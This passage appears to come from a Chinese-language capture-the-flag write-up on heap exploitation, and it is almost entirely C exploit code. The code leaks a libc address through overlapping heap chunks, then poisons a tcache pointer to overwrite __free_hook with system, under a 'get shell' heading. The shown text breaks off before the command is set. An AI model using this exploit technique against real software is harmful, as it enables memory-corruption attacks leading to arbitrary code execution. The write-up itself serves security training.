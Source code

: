 ```
    ((size_t*)chunk)[2] = 0;
    ((size_t*)chunk)[3] = 0;
    write(conns[14], chunk, 0x20);
    yield();

    // free chunk 5
    write(conns[5], "\n", 1);
    yield();

    // trigger a realloc (because heap is overlapping, this will lead to problems) and send leaked data out
    write(conns[14], "YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY\n", 0x40);
    yield();

    // read in the libc leak
    do {
        read(conns[14], chunk, 1);
    } while(*chunk != '\n');
    read(conns[14], chunk, 0x20);
    leak = (size_t*)chunk;
    if (leak[1] == 0x811) {
        puts("libc leak not found :(");
        exit(0);
    }
    printf("leaked: %lx %lx %lx %lx\n", leak[0], leak[1], leak[2], leak[3]);
    size_t libcbase = leak[2] -= OFFSET_LIBC;
    printf("libc located at: 0x%lx\n", libcbase);

```

###### get shell

修改free_hook 很常规

```
    int x, y, z;
    x = conn();
    yield();
    y = conn();
    yield();
    z = conn();
    yield();
    write(x, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 0x20);
    write(y, "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB", 0x20);
    write(z, "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC", 0x20);
    yield();
    close(x);
    yield();

    // bug again: overwrite tcache pointer to point at free hook
    addr = libcbase + OFFSET_FREE_HOOK;
    write(z, &addr, 7);
    close(y);
    yield();

    // get chunk overlapping the free hook, overwrite it with system
    write(conns[10], "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX", 0x20);
    yield();
    memset(chunk, 0, 0x20);
    *(size_t*)chunk = libcbase + OFFSET_SYSTEM;
    write(conns[11], chunk, 0x20);
    yield();

    // create chunk with command to be executed
```